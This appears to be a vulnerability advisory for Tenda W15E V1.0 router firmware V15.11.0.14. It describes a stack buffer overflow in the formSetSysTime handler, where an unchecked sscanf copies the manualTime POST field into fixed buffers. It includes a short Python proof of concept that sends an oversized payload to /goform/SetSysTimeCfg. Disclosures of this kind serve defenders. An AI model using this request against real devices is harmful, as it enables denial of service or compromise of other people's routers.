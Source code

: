 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formSetSysTime` function. The `mode` variable receives the `sysTimePolicy` parameter from a POST request and we let `mode=="manual"` to execute  code in `else if`. 

![image-20240417093027306](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417093027306.png)

The `manual_time` variable receives the `manualTime` parameter from a POST request. However, since the user can control the input of `manualTime`, the statement `sscanf((const char *)manual_time, "%[^-]-%[^-]-%[^ ] %[^:]:%[^:]:%s", year, month, day, hour, min, sec);` can cause a buffer overflow. The user-provided  `time` can exceed the capacity of the `year, month, day, hour, min, sec` array, triggering this security vulnerability.

![image-20240417092952972](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417092952972.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'sysTimePolicy':'manual',
        'manualTime':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
